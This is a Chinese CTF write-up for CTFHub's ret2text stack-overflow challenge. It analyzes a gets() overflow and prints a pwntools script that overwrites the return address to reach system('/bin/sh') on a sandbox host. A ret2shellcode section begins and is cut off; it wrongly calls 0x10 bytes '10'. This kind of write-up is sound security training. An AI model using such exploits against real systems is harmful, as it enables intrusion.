 # Pwn

## CTFHub

### ret2text

先`file ./ret2text`查看文件类型再`checksec --file=./ret2text`检查一下文件保护情况。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/1.png)

用`IDA Pro 64bit`打开附件`ret2text`，按`F5`反汇编源码并查看主函数，发现`gets()`函数读取输入到变量`v4`中，`v4`的长度只有`0x70`，即可用栈大小只有`112`字节，但是`gets()`函数并没有限制输入，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/2.png)

双击`v4`变量查看其在内存中的虚拟地址信息，构造`payload`时可以先用`0x70`个字节占满`s`变量，然后再加上`r`的`8`个字节。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/3.png)

在`Function Window`中注意到有一个名为`secure()`的函数，函数中当`scanf()`输入的`v2`变量和`rand()`函数生成的`v3`变量值相等时，会发生系统调用，因此构造`payload`时需要再加上`system('/bin/sh')`函数的地址即可。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/4.png)

编写`Python`代码即可得到`ctfhub{f878895b3600b2e2192e5c9a}`。

```python
from pwn import *

io = remote('challenge-e20ddfc12b209019.sandbox.ctfhub.com', 34749)
payload = b'a'*0x70 + b'fuckpwn!' + p64(0x4007B8)
io.sendlineafter('Welcome to CTFHub ret2text.Input someting:\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/5.png)

提交`ctfhub{f878895b3600b2e2192e5c9a}`即可。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2text/6.png)

------

### ret2shellcode

先`file ./ret2shellcode`查看文件类型再`checksec --file=./ret2shellcode`检查一下文件保护情况。

![](https://paper.tanyaodan.com/CTFHub/Pwn/栈溢出/ret2shellcode/1.png)

用`IDA Pro 64bit`打开附件`ret2shellcode`，按`F5`反汇编源码并查看主函数，发现`buf`变量的地址被`printf()`函数输出了，然后`read()`函数读取输入到变量`buf`中，`char`型变量`buf`的长度只有`0x10`，即可用栈大小只有`10`字节，但是`read()`函数限制输入`0x400`个字节，显然存在栈溢出漏洞。
